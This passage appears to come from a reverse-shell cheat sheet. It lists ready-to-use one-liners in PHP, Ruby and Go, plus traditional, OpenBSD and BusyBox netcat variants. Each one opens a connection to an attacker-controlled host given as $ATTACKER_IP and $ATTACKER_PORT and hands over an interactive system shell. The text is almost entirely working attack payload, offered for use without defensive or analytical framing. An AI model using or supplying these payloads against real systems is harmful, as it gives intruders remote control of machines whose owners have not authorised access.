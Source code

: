 #### PHP

```php
php -r '$sock=fsockopen("$ATTACKER_IP",$ATTACKER_PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("$ATTACKER_IP",$ATTACKER_PORT);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("$ATTACKER_IP",$ATTACKER_PORT);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("$ATTACKER_IP",$ATTACKER_PORT);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("$ATTACKER_IP",$ATTACKER_PORT);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("$ATTACKER_IP",$ATTACKER_PORT);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

```php
php -r '$sock=fsockopen("$ATTACKER_IP",$ATTACKER_PORT);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

#### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("$ATTACKER_IP",$ATTACKER_PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e'exit if fork;c=TCPSocket.new("$ATTACKER_IP","$ATTACKER_PORT");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'

NOTE: Windows only
ruby -rsocket -e 'c=TCPSocket.new("$ATTACKER_IP","$ATTACKER_PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

#### Golang

```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","$ATTACKER_IP:$ATTACKER_PORT");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

#### Netcat Traditional

```bash
nc -e /bin/sh $ATTACKER_IP $ATTACKER_PORT
nc -e /bin/bash $ATTACKER_IP $ATTACKER_PORT
nc -c bash $ATTACKER_IP $ATTACKER_PORT
```

#### Netcat OpenBsd

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER_IP $ATTACKER_PORT >/tmp/f
```

#### Netcat BusyBox

```bash
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER_IP $ATTACKER_PORT >/tmp/f
```
